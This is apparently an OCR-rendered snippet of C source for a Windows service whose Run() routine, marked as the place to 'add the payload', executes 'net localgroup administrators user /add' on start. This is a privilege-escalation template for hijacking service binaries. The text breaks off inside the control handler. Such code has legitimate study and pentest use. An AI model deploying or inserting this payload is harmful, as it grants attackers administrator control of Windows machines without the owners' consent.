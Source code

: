 
```c
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
```
